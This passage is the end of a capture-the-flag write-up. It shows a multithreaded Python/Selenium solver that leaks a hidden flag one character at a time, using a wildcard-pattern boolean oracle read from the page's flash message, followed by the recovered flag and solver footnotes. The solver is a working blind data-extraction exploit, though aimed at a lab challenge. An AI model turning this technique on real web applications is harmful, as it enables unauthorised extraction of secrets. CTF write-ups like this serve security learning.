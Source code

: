 ```py
        truth = flash_message_el.get_attribute('textContent').strip() == 'ng'

        return prop, truth

    except Exception as e:
        return prop, False

    finally:
        driver.close()

def backup(revealed_flag: str):
    with open('flag.bak', mode='w') as f:
        f.write(revealed_flag)

if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=8) as executor:
        upper_bound = 50
        props = [length_is(i) for i in range(1, upper_bound + 1)]
        secret_length = [v[0].count('_') for i, v in enumerate(list(executor.map(prop_holds, props))) if v[1]].pop()

    print(f'\r[+] secret_length: {secret_length}\033[0K')

    secret = ''
    for i in range(1, secret_length + 1):
        with ThreadPoolExecutor(max_workers=4) as executor:
            props = [nth_char_is(i, c) for c in S]
            possible_chars = [v for v in executor.map(prop_holds, props) if v[1]]
            if len(possible_chars) == 1:
                secret += possible_chars.pop()[0].lstrip(f'{FLAG_PRE}{"_" * (i - 1)}').rstrip(f'%{FLAG_SUF}')
            else:
                secret += '?'

            print(f'\r[+] ~N={i} => {secret}\033[0K')
            backup(f'{FLAG_PRE}{secret}')

    print(f'[*] flag: {FLAG_PRE}{secret}{FLAG_SUF}')

```

### Flag

`LINECTF{1-kn0w-what-y0u-d0wn10ad}`

## Footnotes

[^1]: I solved this with my teammate [@y0d3n](https://twitter.com/y0d3n).
[^2]: I feel that there is a relatively good way to put out a simple Writeup for the time being and give a detailed explanation at the review's timing.
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: I didn't investigate if we could issue other method requests because it was enough to get the flag if there was a GET request.
[^5]: After being forwarded, it may be normalized using `app.main.LanguageNomarize (request)`.
[^6]: `%` is a wildcard that represents a string of 0 or more characters
[^7]: Actually, the manual leak by teammate [@y0d3n](https://twitter.com/y0d3n) was faster, but from a privacy point of view, instead of his face photo, The Solver script by Python is posted.
